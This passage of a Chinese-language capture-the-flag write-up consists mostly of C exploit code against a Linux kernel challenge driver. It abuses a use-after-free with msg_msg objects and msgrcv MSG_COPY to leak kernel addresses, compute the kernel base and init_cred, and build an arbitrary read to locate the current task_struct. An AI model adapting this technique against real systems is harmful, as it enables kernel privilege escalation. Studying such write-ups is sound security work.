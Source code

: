 ```c
  ((struct msg_msg *)rule)->m_list.next = (void *)0xAAAAAAAA;
  ((struct msg_msg *)rule)->m_list.prev = (void *)0xBBBBBBBB;
  ((struct msg_msg *)rule)->m_ts = 0x2000;
  ((struct msg_msg *)rule)->m_type = 1;
  rule->idx = 0;
  rule->type = OUTBOUND;
  strcpy(rule->ip, "000000000");
  ioctl(global_fd, EDIT_RULE, rule);

  void *dump = calloc(1, 0x2000);
  printf("[+] dump:\t%p\n", dump);
  ret = msgrcv(qid[0], dump, 0x2000, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);
  if (ret < 0) {
    die("[!] Failed to recv message");
  }
  int i = 0;
  uint64_t val = 0;
  for (i = 0; i < 0x2000 / 8; i++) {
    val = ((uint64_t *)dump)[i];
    if ((val & 0xffffffff) == 0x42424242) {
      next = ((uint64_t *)dump)[i - 6];
      prev = ((uint64_t *)dump)[i - 5];
      // skip
      i++;
    }
    if ((val & 0xffff) == 0x1600) {
      dynamic_kobj_ktype = val;
    }
    if ((dynamic_kobj_ktype != 0) && (next != 0) && (prev != 0))
      break;
  }
  if (((int64_t)next >= 0) || ((int64_t)prev >= 0)) {
    printf("[!] Failed to get next and prev, try again\n");
    goto done;
  }
  kernbase = dynamic_kobj_ktype - 0xc41600;
  init_task = kernbase + 0xc124c0;
  init_cred = kernbase + 0xc33060;
```

这里得到next和prev的值有一定的概率。

## 任意地址读 & task_struct 遍历

修改UAF的块的next为目标地址-8即可实现任意地址读，同第一题对tasks进行遍历找到当前进程的`task_struct`。

```c
  printf("[*] Task struct searching...\n");

  pid_t pid = getpid();
  printf("[+] self pid:\t%d\n", pid);
  uint64_t cur = init_task;
  ((struct msg_msg *)rule)->m_ts = 0xfd0 + 0x200;
  for (;;) {
    pid_t cur_id = 0;

    bzero(rule->ip, 16);
    ip_value_to_str(cur + 0x290, rule->ip, 16);
    ip_value_to_str((cur + 0x290) >> 32, rule->netmask, 16);
    ioctl(global_fd, EDIT_RULE, rule);
    bzero(dump, 0x1500);
    ret = msgrcv(qid[0], dump, 0x1500, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);
    if (ret < 0) {
      die("[!] Failed to recv message");
```